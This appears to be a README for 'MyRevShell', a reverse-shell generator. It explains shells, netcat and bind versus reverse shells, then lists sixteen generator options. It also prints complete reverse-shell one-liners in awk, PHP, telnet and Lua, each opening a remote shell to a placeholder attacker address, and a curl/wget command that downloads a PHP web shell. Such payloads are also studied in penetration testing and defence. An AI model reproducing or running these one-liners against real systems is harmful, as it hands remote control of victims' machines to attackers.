 # What is a Shell?
> - Shell is a program whose function is to provide an interface for users of an operating system to access kernel services. 
> - In general, operating system shells use a command line interface (CLI) or a graphical user interface (GUI). 
> - It's called a shell because it's the outermost layer around the operating system. 
> #### More information: [Wikipedia-Shell](https://en.wikipedia.org/wiki/Shell_%28computing%29)
---

# What is the Netcat? 
> - Considered the Swiss army knife of TCP/IP, Netcat is a networking tool used to read and write data over the network using TCP or UDP protocols. 
> ### Types:
> - [Ncat](https://nmap.org/ncat/)
> - [The GNU Netcat](https://netcat.sourceforge.net/)
> - [Netcat Tradicional](https://packages.debian.org/sid/netcat-traditional)
> - [Netcat OpenBSD](https://packages.debian.org/sid/netcat-openbsd)
> - [Netcat6](http://www.deepspace6.net/projects/netcat6.html)
> - [Socat](http://www.dest-unreach.org/socat/)
> #### More information: [Wikipedia-Netcat](https://en.wikipedia.org/wiki/Netcat)
---

# Reverse Shell and Bind Shell
> ### Bind Shell: 
> - Have the listener running on the target and the attacker connects to the listener to get a remote shell. 
> - The attacker must know the IP address of the victim before launching the Bind Shell. 
> - Bind Shell sometimes will fail, because modern firewalls don’t allow outsiders to connect to open ports.
> ### Reverse Shell:
> - Have the listener running on the attacker and the target connects to the attacker with a shell.
> - The attacker doesn’t need to know the IP address of the victim, because the attacker is going to connect to our open port.
> - Reverse Shell can bypass the firewall issues because this target machine tries to connect to the attacker, so the firewall doesn’t bother checking packets.
---

# MyRevShell
> The script has 16 shell generator options + 1 base64 encode option 
> ### Types:
> - "sh"
> - "zsh"
> - "bash"
> - "nc -c"
> - "nc -e"
> - "nc.exe -e"
> - "nc mkfifo"
> - "ncat -e"
> - "ncat.exe -e"
> - "python x1"
> - "python x2"
> - "python3 x1"
> - "python3 x2"
> - "python3 shortest"
> - "socat x1"
> - "socat x2"
> #### Extra:
> - Awk Shell:
> ``` 
> awk 'BEGIN {s = "/inet/tcp/0/#ip/#port"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } > } while(c != "exit") close(s); }}' /dev/null
> ```
> - PHP exec: 
> ```
> php -r '$sock=fsockopen("#ip",#port);exec("bash <&3 >&3 2>&3");'
> ```
> - Telnet:
> ```
> TF=$(mktemp -u);mkfifo $TF && telnet #ip #port 0<$TF | bash 1>$TF
> ```
> - Lua:
> ```
> lua -e "require('socket');require('os');t=socket.tcp();t:connect('#ip','#port');os.execute('bash -i <&3 >&3 2>&3');"
> ```
> ### Web Shell: 
> Download: 
> - **Curl/Wget: `curl/wget https://raw.githubusercontent.com/h0ru/My-Shell/main/shell.php -O shell.php`**
---
